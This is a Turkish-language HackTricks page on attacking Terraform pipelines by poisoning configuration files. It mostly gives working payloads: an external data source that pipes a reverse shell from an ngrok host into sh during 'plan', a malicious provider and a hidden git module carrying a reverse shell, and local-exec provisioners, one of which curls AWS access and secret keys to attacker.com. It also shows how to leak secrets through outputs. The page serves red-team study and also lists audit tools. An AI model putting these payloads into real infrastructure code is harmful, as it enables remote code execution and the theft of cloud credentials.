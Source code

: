 # Terraform Güvenliği

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) koleksiyonumuzdaki özel [**NFT'leri**](https://opensea.io/collection/the-peass-family) keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'ı **takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **PR göndererek paylaşın**.

</details>

## Temel Bilgiler

[Dökümantasyondan: ](https://developer.hashicorp.com/terraform/intro)

HashiCorp Terraform, **insan tarafından okunabilir yapılandırma dosyalarında** bulut ve yerinde kaynakları tanımlamanıza, sürümlemenize, yeniden kullanmanıza ve paylaşmanıza olanak tanıyan bir **altyapı kodu aracıdır**. Ardından, altyapınızın yaşam döngüsü boyunca tutarlı bir iş akışı kullanarak tüm altyapınızı oluşturmayı ve yönetmeyi sağlayabilirsiniz. Terraform, hesaplama, depolama ve ağ kaynakları gibi düşük seviye bileşenleri, DNS girişleri ve SaaS özellikleri gibi yüksek seviye bileşenleri yönetebilir.

### Terraform nasıl çalışır?

Terraform, bulut platformlarında ve diğer hizmetlerde kaynakları ve hizmetleri uygulama programlama arayüzleri (API'ler) aracılığıyla oluşturur ve yönetir. Sağlananlar, Terraform'un erişilebilir bir API'ye sahip neredeyse herhangi bir platform veya hizmetle çalışmasını sağlar.

![](<../.gitbook/assets/image (33).png>)

HashiCorp ve Terraform topluluğu, **1700'den fazla sağlayıcı** yazmıştır ve binlerce farklı türde kaynak ve hizmeti yönetmek için bu sayı sürekli olarak artmaktadır. Amazon Web Services (AWS), Azure, Google Cloud Platform (GCP), Kubernetes, Helm, GitHub, Splunk, DataDog ve daha birçok sağlayıcıyı içeren tüm genel olarak kullanılabilir sağlayıcıları [Terraform Kayıt Defteri](https://registry.terraform.io/)nde bulabilirsiniz.

Temel Terraform iş akışı üç aşamadan oluşur:

* **Yazma:** Birden fazla bulut sağlayıcı ve hizmet üzerinde olabilecek kaynakları tanımlarsınız. Örneğin, bir uygulamayı sanal makinelerde bir Sanal Özel Ağ (VPC) ağındaki güvenlik grupları ve bir yük dengeleyici ile dağıtmak için bir yapılandırma oluşturabilirsiniz.
* **Planlama:** Terraform, mevcut altyapı ve yapılandırmanıza dayanarak oluşturacağı, güncelleyeceği veya yok edeceği altyapıyı tanımlayan bir yürütme planı oluşturur.
* **Uygulama:** Onaylandığında, Terraform önerilen işlemleri doğru sırayla gerçekleştirir ve herhangi bir kaynak bağımlılığını dikkate alır. Örneğin, bir VPC'nin özelliklerini güncellerseniz ve bu VPC'deki sanal makine sayısını değiştirirseniz, Terraform, sanal makineleri ölçeklendirmeden önce VPC'yi yeniden oluşturur.

![](<../.gitbook/assets/image (81).png>)

## Terraform Laboratuvarı

Sadece bilgisayarınıza terraform kurun.

İşte [kılavuz](https://learn.hashicorp.com/tutorials/terraform/install-cli) ve burada [terraform'ı indirmenin en iyi yolu](https://www.terraform.io/downloads) bulunmaktadır.

## Terraform'da Uzaktan Kod Çalıştırma (RCE)

Terraform'un **bir web sayfası veya ağ hizmeti sunan bir platformu yoktur** bu yüzden sayılabilecek bir şey yoktur, bu nedenle terraform'ı **etkileyebilmek için terraform yapılandırma dosyalarını eklemek/değiştirmek** gerekmektedir.

Ancak, terraform, düzgün çalışabilmesi için farklı konumlara **özel erişim** sağlayacağından, terraform'ın **çok hassas bir bileşen** olduğunu unutmamak önemlidir.

Bir saldırganın terraform'ın çalıştığı sistemi etkileyebilmesi için **terraform yapılandırma dosyalarını depolayan depoyu etkilemesi** en yaygın yol olacaktır, çünkü bir noktada bu dosyalar **yorumlanacak**tır.

Aslında, **Atlantis** gibi bir PR oluşturulduktan sonra otomatik olarak `terraform plan/apply` komutlarını çalıştıran çözümler bulunmaktadır:

{% content-ref url="atlantis-security.md" %}
[atlantis-security.md](atlantis-security.md)
{% endcontent-ref %}

Bir terraform dosyasını etkileyebiliyorsanız, birisi `terraform plan` veya `terraform apply` komutunu çalıştırdığında RCE gerçekleştirmek için farklı yöntemler bulunmaktadır.

### Terraform plan

Terraform plan, terraform'da **en çok kullanılan komuttur** ve geliştiriciler/terraform kullanan çözümler bunu sürekli çağırır, bu yüzden RCE elde etmenin **en kolay yolu**, bir terraform yapılandırma dosyasını zehirlemek ve `terraform plan` komutunda keyfi komutlar çalıştırmaktır.

#### Harici bir sağlayıcı kullanma

Terraform, Terraform ve harici programlar arasında bir arayüz sağlayan [`external` sağlayıcıyı](https://registry.terraform.io/providers/hashicorp/external/latest/docs) sunar. Bir `plan` sırasında keyfi kod çalıştırmak için `external` veri kaynağını kullanabilirsiniz.

Aşağıdaki gibi bir terraform yapılandırma dosyasına enjekte edilen şey, `terraform plan` komutu çalıştırıldığında bir ters kabuk çalıştıracaktır:
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Özel bir sağlayıcı kullanma

Bir saldırgan, [özel bir sağlayıcıyı](https://learn.hashicorp.com/tutorials/terraform/provider-setup) [Terraform Kayıt Defteri'ne](https://registry.terraform.io/) gönderebilir ve ardından bunu Terraform koduna bir özellik dalında ekleyebilir ([buradan örnek](https://alex.kaskaso.li/post/terraform-plan-rce)).
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
Sağlayıcı `init` sırasında indirilir ve `plan` çalıştırıldığında kötü amaçlı kodu çalıştırır

Bir örneği [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec) adresinde bulabilirsiniz.

#### Harici bir referans kullanma

Bahsedilen her iki seçenek de kullanışlıdır, ancak çok gizli değildir (ikincisi birincisinden daha gizli, ancak daha karmaşıktır). Bu saldırıyı daha **gizli bir şekilde** gerçekleştirebilirsiniz, aşağıdaki önerilere uyarak:

* Terraform dosyasına doğrudan rev shell eklemek yerine, rev shell içeren bir **harici kaynağı yükleyebilirsiniz**:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Rev shell kodunu [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules) adresinde bulabilirsiniz.

* Dış kaynakta, **terraform rev shell kodunu bir dal içinde** gizlemek için **ref** özelliğini kullanın, örneğin: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Terraform Apply

Tüm değişiklikleri uygulamak için Terraform apply komutu kullanılır, aynı zamanda **yerel yürütme** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)** ile** **kötü niyetli bir Terraform dosyası enjekte ederek RCE elde etmek için de kullanılabilir**.\
Sadece aşağıdaki gibi bir payload'ın `main.tf` dosyasında yer aldığından emin olmanız gerekmektedir:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
## Sızıntılar

Terraform dosyasına aşağıdaki gibi bir şey ekleyerek, `terraform apply` komutunu çalıştırarak Terraform tarafından kullanılan gizli değerleri sızdırabilirsiniz:

```hcl
data "external" "secrets" {
  program = ["sh", "-c", "echo 'secretpassword'"]
}

output "secrets" {
  value = data.external.secrets.result
}
```

Bu örnekte, `secretpassword` adlı bir gizli değer dışa aktarılıyor. Bu değeri gerçek bir gizli değerle değiştirmeniz gerekmektedir.
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## Denetim Araçları

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec, terraform kodunuzun statik analizini kullanarak potansiyel yanlış yapılandırmaları tespit eder.
* [**terascan**](https://github.com/tenable/terrascan): Terrascan, Altyapı olarak Kod için bir statik kod analiz aracıdır.

## Referanslar

* [Atlantis Güvenliği](atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)
* [https://developer.hashicorp.com/terraform/intro](https://developer.hashicorp.com/terraform/intro)


<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya HackTricks'i **PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz olan [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'ı takip edin.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR göndererek paylaşın.

</details>
